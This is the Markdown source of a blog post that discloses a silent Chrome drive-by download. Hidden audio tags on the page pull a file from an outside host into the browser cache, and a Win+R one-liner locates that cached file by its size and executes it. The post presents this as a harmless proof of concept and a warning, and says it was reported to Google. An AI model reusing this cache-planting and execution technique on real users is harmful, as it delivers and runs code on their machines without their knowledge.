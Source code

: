 ```yaml
---
layout: post
title: Don't run commands you don't really understand
comments: true
---
```


This demonstrates a fully silent drive-by download in Google Chrome -
  and will launch a demo PoC if this seemingly harmless command is entered in a **Win+R** prompt:

<pre>
cmd /c for /r %g in (*_*) do if %~zg==23456 copy /y "%g" "%g.log" & "%g.log"
</pre>

Can you figure out how this works?

<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />
<audio style=visibility:hidden src=http://trax.x10.mx/cybersweet2b.au />

Notes: 

  * The PoC is a harmless demo
  * Chiptune in PoC is (c) 1999 WAVE
  * Reported to Google in November 2015 (status: Wontfix)

<A href=https://twitter.com/hexatomium>Follow</A> @hexatomium
